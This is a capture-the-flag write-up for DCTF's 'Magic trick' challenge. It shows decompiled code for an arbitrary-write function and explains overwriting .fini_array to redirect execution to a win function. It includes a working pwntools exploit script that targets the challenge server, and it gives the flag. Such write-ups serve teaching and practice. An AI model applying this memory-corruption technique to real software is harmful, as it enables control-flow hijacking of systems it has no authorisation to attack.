 # Magic trick

How about a magic trick?
nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481

## Challenge

We have a single arbitrary write and a win function.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Arbitrary Write

```c
void sym.magic(void)
{
    int64_t in_FS_OFFSET;
    int64_t var_20h;
    int64_t var_18h;
    int64_t var_10h;
    int64_t canary;

    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.puts("What do you want to write");
    sym.imp.__isoc99_scanf("%llu", &var_20h);
    sym.imp.puts("Where do you want to write it");
    sym.imp.__isoc99_scanf("%llu", &var_18h);
    sym.imp.puts("thanks");
    var_10h = var_18h;
    *(int64_t *)var_18h = var_20h;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

### Win Function

```c
void sym.win(void)
{
    int64_t in_FS_OFFSET;
    undefined8 uStack48;
    undefined8 *puStack40;
    undefined8 *puStack32;
    int64_t iStack24;
    code *pcStack16;
    
    pcStack16 = (code *)0x400677;
    sym.imp.puts("You are a real magician");
    pcStack16 = (code *)0x400683;
    sym.imp.system("cat flag.txt");
    pcStack16 = sym.magic;
    sym.imp.exit(1);
}
```

## Solution

Using the arbitrary write, we can overwrite the entry in `.fini_array` so that the program jumps to a specified address when it returns.
By overwriting this value with the address of the `win` function, the program will call this function and read us the flag.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf-chall-magic-trick.westeurope.azurecontainer.io --port 7481 magic_trick
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('magic_trick')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf-chall-magic-trick.westeurope.azurecontainer.io'
port = int(args.PORT or 7481)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

win = 0x00400667
dtors = 0x00600a00

io.sendline(str(win))
io.sendline(str(dtors))

io.interactive()
```

## Flag

`dctf{1_L1k3_M4G1c}`

